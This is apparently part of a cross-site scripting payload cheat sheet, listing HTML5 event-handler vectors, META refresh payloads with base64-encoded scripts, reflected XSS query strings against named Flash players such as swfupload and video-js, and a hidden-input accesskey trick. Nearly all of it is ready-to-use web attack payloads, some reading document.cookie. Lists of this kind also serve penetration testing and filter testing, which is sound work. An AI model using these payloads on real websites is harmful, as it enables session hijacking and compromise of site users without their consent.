 ```
```

XSS for HTML5
```
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
```


XSS in META tag
```
Base64 encoded
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

<meta/content="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pg=="http-equiv=refresh>

With an additional URL
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

XSS in flash application
```
flashmediaelement.swf?jsinitfunctio%gn=alert`1`
flashmediaelement.swf?jsinitfunctio%25gn=alert(1)
ZeroClipboard.swf?id=\"))} catch(e) {alert(1);}//&width=1000&height=1000
swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!alert(1);//
swfupload.swf?buttonText=test<a href="javascript:confirm(1)"><img src="https://web.archive.org/web/20130730223443im_/http://appsec.ws/ExploitDB/cMon.jpg"/></a>&.swf
plupload.flash.swf?%#target%g=alert&uid%g=XSS&
moxieplayer.swf?url=https://github.com/phwd/poc/blob/master/vid.flv?raw=true
video-js.swf?readyFunction=alert(1)
player.swf?playerready=alert(document.cookie)
player.swf?tracecall=alert(document.cookie)
banner.swf?clickTAG=javascript:alert(1);//
io.swf?yid=\"));}catch(e){alert(1);}//
video-js.swf?readyFunction=alert%28document.domain%2b'%20XSSed!'%29
bookContent.swf?currentHTMLURL=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4
flashcanvas.swf?id=test\"));}catch(e){alert(document.domain)}//
```

XSS in Hidden input
```
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```
